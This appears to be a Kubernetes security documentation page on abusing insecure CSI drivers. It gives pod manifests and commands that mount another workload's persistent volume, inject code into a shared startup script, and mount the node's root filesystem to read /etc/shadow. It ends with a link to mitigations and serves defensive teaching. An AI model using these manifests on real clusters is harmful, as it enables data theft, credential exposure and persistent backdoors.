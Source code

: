 ```yaml
---
sidebar_position: 12
title: "Insecure CSI Drivers"
description: "How attackers exploit insecure Container Storage Interface (CSI) drivers to gain unauthorized access to persistent volumes and sensitive data."
---
```


# Insecure CSI Drivers

**Container Storage Interface (CSI) drivers** enable Kubernetes to manage persistent storage across different backends. If **misconfigured** or **insecure**, these drivers can allow attackers to **access sensitive data, escalate privileges, or compromise the host node**.

This article explores how insecure CSI drivers can be abused to gain unauthorized access to persistent volumes or host filesystems.

---

## Exploitation Steps: Abusing Insecure CSI Drivers

### 1. Discover Exposed CSI Drivers

The attacker begins by identifying CSI drivers and storage classes that may lack security controls:

```bash
kubectl get storageclass
```

If a storage class uses a permissive CSI driver, the attacker proceeds to mount existing volumes.

### 2. Attach to a Sensitive Persistent Volume

The attacker creates a malicious pod that mounts a PVC from another workload:

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: attacker-pod
spec:
  containers:
    - name: attacker-container
      image: alpine
      command: ["/bin/sh", "-c"]
      args: ["sleep 3600"]
      volumeMounts:
        - mountPath: /data
          name: compromised-volume
  volumes:
    - name: compromised-volume
      persistentVolumeClaim:
        claimName: sensitive-data-pvc
```

```bash
kubectl apply -f attacker-pod.yaml
```

Once the pod is running, the attacker can access the mounted data from `/data`.

### 3. Modify Shared Volumes (RWX Mode)

If the volume supports `ReadWriteMany`, the attacker injects malicious files:

```bash
echo "Malicious code" >> /data/startup.sh
```

This allows code execution when another pod uses the same volume.

### 4. Exploit Privileged CSI Driver Access

Some CSI drivers are deployed with host-level access. An attacker can exploit this by mounting the host filesystem:

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: csi-exploit-pod
spec:
  containers:
    - name: exploit-container
      image: alpine
      command: ["/bin/sh", "-c"]
      args: ["cat /host/etc/shadow"]
      volumeMounts:
        - mountPath: /host
          name: host-mount
  volumes:
    - name: host-mount
      hostPath:
        path: /
        type: Directory
```

This gives the attacker read (or write) access to sensitive system files on the node.

---

### Result

A misconfigured CSI driver may enable:

- Unauthorized access to persistent data
- Modification of shared volumes
- Host filesystem access via privileged plugins
- Persistent backdoors via mounted scripts

---

## Mitigation

➡ [Securing Kubernetes CSI Drivers](/docs/best_practices/cluster_setup_and_hardening/pod_security/csi_driver_mitigation)
